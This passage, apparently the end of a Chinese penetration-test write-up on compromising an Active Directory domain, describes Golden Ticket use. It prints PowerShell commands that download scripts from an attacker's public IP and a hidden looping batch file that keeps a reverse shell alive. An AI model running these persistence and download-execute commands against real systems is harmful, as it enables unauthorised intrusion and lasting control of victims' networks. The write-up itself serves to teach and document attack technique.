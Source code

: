 我们叉着手等了一会，在我们的电脑上就看到了来自SRVDC1的shell：



```
PS C:Windowssystem32&gt; whoami
supercompanyadministrator
```

即使Administrator的密码变了，这种手段也会奏效。

关于Golden Ticket的潜在危险，我有几句话要说：

发现伪造的Kerberos Tickets非常困难([https://adsecurity.org/?p=1515](https://adsecurity.org/?p=1515) )

在有证据的情况下，唯一的方法就是重置krbtg密码两次，但这可能会对Active Directory Infrastructure造成严重影响

<br>

**最后要做的**

还记得我们是怎么在SRVWSUS获得第一个powershell远程shell的吗？

我们从企业内部网络的服务器执行了一个远程命令，通过安卓手机的Meterpreter转发这个连接。要是我们失去了Powershell的远程shell，并且再也没有连接到受害者怎么办？Game Over…

我们需要添加对SRVWSUS shell的持久访问权！

怎么做呢？答案是通过从Tomcat的webshell添加访问SRVWSUS的功能：



```
# 1st smbexec command:
IEX (New-Object Net.WebClient).DownloadFile(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.ps1`’,
`’c:tmpr1.ps1`’)
# 2nd smbexec command:
IEX (New-Object Net.WebClient).DownloadFile(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.bat`’,
`’c:tmpr1.bat`’)
# 3rd smbexec command:
‘cmd /c c:tmpr1.bat’
What does r1.bat contain?
@echo off
:loop
powershell -executionpolicy bypass -windowstyle hidden -f c:tmpr.ps1
timeout /t 10
goto loop
```

虽不优雅，但是有效。一旦丢失了连接，等待十秒钟就会重新回连。

我们当然可以加密混淆所有的.ps1脚本，但我们就是想给你展示它的原理。

<br>

**结论**

这就是我们的工作，并没有发明什么新的东西，但是使用Windows内置的功能和一些脚本，我们做了件大事。有时候我们并不需要什么魔法一样的工具，只需要K.I.S.S.原则。

总之，聪明的去办事吧！
